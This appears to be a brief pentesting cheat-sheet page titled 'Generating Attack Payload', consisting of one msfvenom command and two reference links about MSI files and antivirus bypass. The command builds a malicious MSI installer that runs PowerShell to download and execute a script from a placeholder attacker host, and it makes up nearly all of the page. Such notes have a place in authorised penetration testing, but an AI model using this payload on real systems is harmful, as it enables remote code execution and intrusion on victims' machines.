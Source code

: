 # Generating Attack Payload

## MSFvenom

    msfvenom -p windows/x64/exec CMD="cmd /c powershell iex(new-object net.webclient).downloadstring('http://<Attacker_IP>/shell.ps1')" -f msi > pwn.msi

## References

* https://pentestlab.blog/tag/msi/
* https://blog.netspi.com/bypassing-anti-virus-with-metasploit-msi-files/